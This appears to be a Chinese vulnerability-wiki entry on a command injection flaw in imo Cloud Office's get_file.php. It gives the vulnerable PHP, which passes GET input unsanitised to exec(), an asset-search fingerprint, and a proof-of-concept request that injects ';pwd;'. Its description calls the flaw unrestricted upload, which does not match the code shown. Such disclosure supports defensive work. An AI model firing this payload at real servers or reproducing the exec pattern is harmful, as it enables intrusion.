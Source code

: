# imo 云办公室 get_file.php 远程命令执行漏洞

## 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 过滤不严格导致允许无限制地上传文件，攻击者可以通过该漏洞直接获取网站权限。

## 漏洞影响

<a-checkbox checked>imo 云办公室</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="iMO-云办公室"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645878070559-eaed5393-f82d-4b08-8b95-54e91e5ceae0-20220313162918737.png)

漏洞文件 get_file.php

```javascript
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```javascript
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```

![img](/assets/PeiQi-Wiki/img/1645880486605-ff738b08-cb7a-4039-b079-a167e13bc567.png)